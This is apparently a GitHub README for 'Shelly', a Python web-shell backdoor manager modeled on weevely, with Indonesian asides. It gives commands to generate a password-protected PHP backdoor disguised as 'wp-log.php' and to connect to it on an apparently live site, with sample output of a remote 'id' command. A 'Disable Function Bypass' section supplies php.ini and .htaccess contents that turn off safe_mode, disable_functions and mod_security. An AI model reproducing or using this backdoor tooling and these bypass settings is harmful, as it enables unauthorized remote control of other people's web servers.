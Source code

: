 
## Shelly | Simple Backdoor Manager with Python (based on weevely)

![Screenshoot](capture/capture-2.png)
<br>
Shelly is a simple tool that is written using Python, which functions to remote a website
<br>
### Instalation :

$ git clone https://github.com/tegal1337/Shelly <br>
$ cd Shelly <br>
$ python3 shell.py <br>

### Requirements :

<pre>
sudo pip install -r requirements.txt
</pre>

### Example :
<pre>

python3 shell.py -g wp-log -p tegal1337
   ______      ____
  / __/ / ___ / / __ __
 _\ \/ _ / -_/ / / // /
/___/_//_\__/_/_/\_, /
                /___/  v.1
--------------------------
Python shell - Tegal1337 |
Generate :
[+] ./backdoor.py -g "nama_shell" -p "password"
Connect Server :
[+] ./backdoor.py -u "url_shell" -p "password"

Backdoor berhasil dibuat dengan nama wp-log.php dan password tegal1337

dalpan@Tegal1337:~/Tools$ python3 shell.py -u "https://www.pamz3d.com/wp-log.php" -p tegal1337
/opt/lampp/htdocs/php-futsal$ id
uid=501(pamz3d) gid=501(pamz3d) groups=501(pamz3d)
</pre>
![Screenshoot](capture/capture.png)
![Screenshoot](capture/capture-3.png)

### Disable Function Bypass :
<ul>
   <li>look for the folder whose permissions 777 (rwx rwx rwx)</li>
   <li>Upload file php.ini </li>
</ul>
<pre>
safe_mode = OFF
disable_functions = NONE
</pre>
<ul>
   <li>And upload file .htaccess</li>
 </ul>
<pre>
<IfModule mod_security.c>
SecFilterEngine Off
SecFilterScanPOST Off
</IfModule>
</pre>


### Artikel :
<ul>
   <li>https://tegalsec.org/meremote-sebuah-website-menggunakan-backdoor-python/</li>
</ul>

### Contact :
<ul>
  <li> Email : van@tegalsec.org</li>
</ul>
